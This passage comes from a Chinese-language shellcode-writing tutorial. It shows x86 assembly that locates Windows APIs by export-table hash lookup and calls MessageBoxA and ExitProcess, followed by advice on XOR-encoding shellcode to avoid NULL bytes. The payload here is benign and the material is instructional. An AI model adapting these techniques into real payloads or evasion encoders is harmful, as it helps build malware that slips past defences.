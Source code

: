 ```asm
compare_hash:
    cmp edx, [esp + 0x1C]
    jnz next_function_loop
    mov ebx, [ecx + 0x24]           // 解析 PE
    add ebx, ebp
    mov di, [ebx + 2 * edi]
    mov ebx, [ecx + 0x1c]
    add ebx, ebp
    add ebp, [ebx + 4 * edi]

    xchg eax, ebp
    pop edi
    stosd
    push edi
    popad                           // 所有通用寄存器出栈
    cmp eax, 0x1e380a6a             // 是否找到最后一个函数
    jne find_lib_functions          // 查找下一个函数

function_call:
    xor ebx, ebx
    xor eax, eax                    // 清零
    mov al, 0x74                    // 构造出 push 0x00000074 即 t
    push eax
    push 0x61434B43	                // 构造出 CKCa

    mov eax, esp
    push ebx
    push eax
    push eax
    push ebx
    call [edi - 0x04]	            // MessageBoxA

    push ebx
    call [edi - 0x08]               // ExitProcess

    nop
    nop
```

## shellcode 编码

### 异或运算

使用异或运算编码需要注意一下几点：

- 用于异或的特定数据相当于加密算法的密钥，在选取时不可与 shellcode 已有字节相同，否则编码后会产生 NULL 字节。
- 可以选用多个密钥分别对 shellcode 的不同区域进行编码，但会增加解码操作的复杂性。
- 可以对 shellcode 进行很多轮编码运算。

### shellcode 瘦身
